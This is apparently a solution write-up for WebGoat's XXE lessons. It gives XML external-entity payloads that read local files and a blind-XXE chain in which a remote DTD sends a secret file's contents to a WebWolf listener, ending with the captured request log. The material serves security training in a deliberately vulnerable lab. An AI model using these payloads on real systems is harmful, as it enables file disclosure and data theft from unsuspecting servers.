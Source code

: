 # (A4) XML External Entities (XXE)

## Lesson 3 - Let’s try
Intercept the request and change the body to:
```
# On Windows
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/">]>
<comment><text>&xxe;</text></comment>

# On Linux or macOS
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///">]>
<comment><text>&xxe;</text></comment>
```

## Lesson 4 - Modern REST framework
The same as the previous lesson, just change request header `Content-Type` to `application/xml`.

## Lesson 7 - Blind XXE assignment
DTD hosted in WebWolf (see [Parameter entities](https://www.tutorialspoint.com/dtd/dtd_entities.htm)):
```
<?xml version="1.0" encoding="UTF-8"?>  
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:9090/landing?%secret;' >" >%all;
```

Attack payload:
```
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE xxe [  
  <!ENTITY % secret SYSTEM "file:///c:/Users/Jan/.webgoat-@project.version@/XXE/secret.txt" >  
  <!ENTITY % dtd SYSTEM "http://localhost:9090/files/vernjan/lesson7.dtd" >  
  %dtd;
]>  
<comment>  
<text>&send;</text>  
</comment>
```

How it works:
1. XML parser evaluates parameter entity `secret`. Its value is the content of the secret file.
2. XML parser evaluates parameter entity `dtd`. Its value is loaded from remote DTD.
    3. XML parser evaluates parameter entity `all` defined in remote DTD
    4. Entity `all` is "printed/rendered" (`%all;`). The remote DTD thus become:
    ```
    <!ENTITY send SYSTEM 'http://localhost:9090/landing?THE_SECRET' >
    ```
3. Entity `dtd` is "printed/rendered" (`%dtd;`). The local DTD thus become:
    ```
    <!ENTITY send SYSTEM 'http://localhost:9090/landing?THE_SECRET' >
    ```
   
Grab the secret from WebWolf (`sunSaRLwgC`):
```json
{
  "timestamp" : "2020-04-01T07:42:44.061694600Z",
  "principal" : null,
  "session" : null,
  "request" : {
    "method" : "GET",
    "uri" : "http://localhost:9090/landing?WebGoat%208.0%20rocks...%20(sunSaRLwgC)",
    "headers" : {
      "host" : [ "localhost:9090" ],
      "connection" : [ "keep-alive" ],
      "user-agent" : [ "Java/11.0.3" ],
      "accept" : [ "text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2" ]
    },
    "remoteAddress" : null
  },
  "response" : {
    "status" : 200,
    "headers" : { }
  },
  "timeTaken" : 2
}
```